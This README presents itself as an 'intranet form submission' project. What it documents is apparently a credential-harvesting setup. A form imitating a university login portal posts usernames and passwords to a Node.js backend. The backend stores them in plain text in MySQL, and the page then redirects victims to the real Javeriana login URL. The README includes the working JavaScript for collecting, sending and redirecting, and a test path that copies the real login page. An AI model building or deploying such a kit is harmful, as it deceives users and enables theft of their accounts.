 
# **Intranet Form Submission App**

This project provides a setup for a form hosted on an IIS server that interacts with a Dockerized Node.js backend and a MySQL database. It saves user credentials securely in the database when the form is submitted and redirects the user upon successful submission.

## **Features**
- **Form Submission**: Collects user credentials (username and password) from a form.
- **Backend API**: Node.js app handles form submissions and stores data in a MySQL database.
- **Redirection**: Redirects the user to a specified URL upon successful submission.
- **Dockerized Setup**: Backend and database are containerized for easy deployment.

---

## **Project Structure**
```
.
├── server.js               # Node.js application backend
├── Dockerfile              # Dockerfile for Node.js app
├── docker-compose.yml      # Docker Compose configuration for app and database
├── public/                 # Static assets, including the HTML form
├── init.sql                # SQL script to initialize the database
└── README.md               # Project documentation
```

---

## **Requirements**
- **Docker** and **Docker Compose** installed on your system.
- IIS server to host the HTML form.
- MySQL client (optional, for database inspection).

---

## **Setup Instructions**

### **Step 1: Clone the Repository**
```bash
git clone <REPOSITORY_URL>
cd <PROJECT_DIRECTORY>
```

### **Step 2: Build and Start Docker Containers**
Ensure Docker is running, then execute:
```bash
docker-compose up --build
```

This will:
- Build and start the Node.js app on `http://localhost:4000`.
- Set up a MySQL database with the required schema.

### **Step 3: Host the Form on IIS**
1. Copy the HTML form to your IIS server’s hosting directory.
2. Ensure the form’s `<form>` tag or JavaScript code points to the Node.js backend. **Update the IP address in the JavaScript `submitForm` function to match the IIS server's IP.** For example:
   ```javascript
   async function submitForm(event) {
       event.preventDefault();

       const username = document.getElementById('username').value;
       const password = document.getElementById('password').value;

       if (!username || !password) {
           alert("Please enter both username and password.");
           return;
       }

       try {
           const response = await fetch('http://<IIS_SERVER_IP>:4000/save-credentials', {
               method: 'POST',
               headers: {
                   'Content-Type': 'application/json',
               },
               body: JSON.stringify({ username, password }),
           });

           if (response.ok) {
               const result = await response.json();
               alert(result.message || 'Credentials saved successfully.');

               // Redirect to the specified URL on success
               window.location.href = 'https://acceso.javeriana.edu.co/menu/login3_v2.html?bmctx=A04E6915505F18E099136E72C9264584664C73087CD21469F3540EEF40735E67&password=secure_string&contextType=external&username=string&challenge_url=https%3A%2F%2Facceso.javeriana.edu.co%2Fmenu%2Flogin3_v2.html&request_id=-1917398409814472959&authn_try_count=0&locale=es_419&resource_url=http%253A%252F%252Fintranet.javeriana.edu.co%252Finicio';
           } else {
               const error = await response.json();
               alert(error.message || 'An error occurred.');
           }
       } catch (err) {
           console.error('Error connecting to the server:', err);
           alert('Failed to connect to the server.');
       }
   }
   ```
   Replace `<IIS_SERVER_IP>` with the actual IP address of the IIS server (e.g., `192.168.124.1`).

3. Open the form in your browser via the IIS server’s URL.

### **Step 4: Test the Setup**
1. Access the form through IIS, e.g., `http://192.168.124.1:443/menu/login3_v2bc9b.html`.
2. Submit the form with a username and password.
3. Verify the data is saved in the database and the user is redirected to the specified URL.

---

## **Usage**

### **Access the Node.js App**
- Base URL: `http://localhost:4000`
- API Endpoint: `POST /save-credentials`

### **Database Information**
- MySQL credentials are configured in the `docker-compose.yml` file:
  ```yaml
  MYSQL_ROOT_PASSWORD: 123
  MYSQL_DATABASE: credentials
  ```
- Default table structure:
  ```sql
  CREATE TABLE users (
      id INT AUTO_INCREMENT PRIMARY KEY,
      username VARCHAR(255) NOT NULL,
      password VARCHAR(255) NOT NULL
  );
  ```

---

## **Troubleshooting**

### Common Issues:
- **CORS Errors**: Ensure the Node.js backend allows requests from the IIS server origin.
- **Port Conflicts**: Check if ports (4000 for Node.js, 3306 for MySQL) are in use.
- **Form Not Submitting**: Ensure the `action` URL or fetch URL in the HTML form points to the correct Node.js server address.

### Logs:
- View Node.js app logs:
  ```bash
  docker logs <NODE_CONTAINER_NAME>
  ```
- Access MySQL container:
  ```bash
  docker exec -it <MYSQL_CONTAINER_NAME> mysql -uroot -p
  ```

---

## **Contributing**
Feel free to submit issues or contribute by creating a pull request.

---

## **License**
This project is licensed under the MIT License.
